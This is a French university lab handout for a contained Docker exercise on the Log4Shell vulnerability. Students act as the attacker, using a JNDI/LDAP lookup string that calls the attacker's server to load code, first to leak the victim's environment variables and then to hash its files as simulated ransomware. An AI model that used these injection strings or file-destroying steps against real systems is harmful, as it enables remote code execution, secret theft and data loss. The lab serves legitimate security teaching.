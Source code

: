 # TP Log4Shell 
#### Victor GAILLARD - Lou LABUSSIERE - Erina POINT - Ugo VIGNON
#### Envoyez votre compte-rendu à l'adresse lou.labussiere@etu.uca.fr
---
## **Objectif** : Hasher les fichiers d'un serveur victime pour simuler une attaque ransomware avec la faille Log4Shell

### **Configuration** :
 Pour commencer, clonez le projet (ou téléchargez l'archive).  

 Dans ce projet, vous trouverez : 
- Le serveur LDAP du pirate;
- Le serveur HTTP du pirate, contenant la codebase que vous aurez à coder;
- Un service de logging sur lequel vous pourrez requêter afin de récuperer des données;
- Le web service de la victime, qui contient les fichiers à hasher; 

Pour lancer le projet :
- Faite un `make all` pour générer tous les Dockerfile;
- Ensuite, faite un `docker-compose up` dans le répertoire cloné;

L'IP du serveur victime et des serveurs du pirate sont loggés avec ces lignes :
```sh
victim_1 | Running on IP : XXX.XXX
server_1 | Running on IP : XXX.XXX
```
 L'IP `server_1` sera à mettre dans le lookup plus tard.

 Si vous ajoutez une classe dans le dossier attacker/java, pensez à relancer vos containers !

---

### **Exercice 0** : Pour se mettre dans le bain
 Pour le temps de ce TP, vous serez le pirate >:) Vous allez donc réaliser une attaque exploitant la faille de Log4Shell sur un web service distant, dans le but de hasher les fichiers de la victime pour simuler un ransomware. 

Après plusieurs essais sur différents sites (en vain), vous tomber finalement sur ce site aux apparences plutôt vulnérables. Le formulaire de connexion n'a pas l'air très sécurisé...

 Avant toute chose, vous allez tester le fonctionnement de cette attaque en affichant dans les logs les valeurs des variables d'environnements de la victime.

Pour cela, vous allez devoir : 
- Créer une classe dans le dossier `attacker/java`. Cette classe devra récupérer les valeurs des variables d'environnements du web service victime, et les logger dans le service `logger_1`. Pour vous aider, consultez l'exemple `WithReturn.java`.

- Utilisez le lookup vu en cours pour lancer votre attaque. Exemple : `${jndi:ldap://<ip_server_1>:<port>/WithReturn}`. 

Pour vérifier que votre attaque a bien marchée, vérifier dans les logs de `logger_1` que les variables d'environnments de la vicitme sont bien affichées après l'envoie de votre requête.

---

### **Exercice 1** : L'attaque, la vraie de vraie
Maintenant que vous avez réussi à afficher les variables d'environnements de votre victime, vous allez pouvoir hasher ses fichiers (mouhaha) !! 

Pour ce faire, vous allez devoir recréer une classe qui va cette fois récupérer les fichiers du serveur de la victime, et les hasher avec l'algorithme SHA-256.

Pour vous aidez:
- la classe `MessageDigest` permet de faire su hashage, plus qu'à savoir comment...
- N'oubliez pas de modifier votre lookup en fonction de votre nouvelle classe ;p

Pour vérifier que cette attaque a bien marché, vous devriez voir que tous les fichiers du web service de la victime ont été hashés. Si c'est le cas, bravo vous êtes un pirate !! 
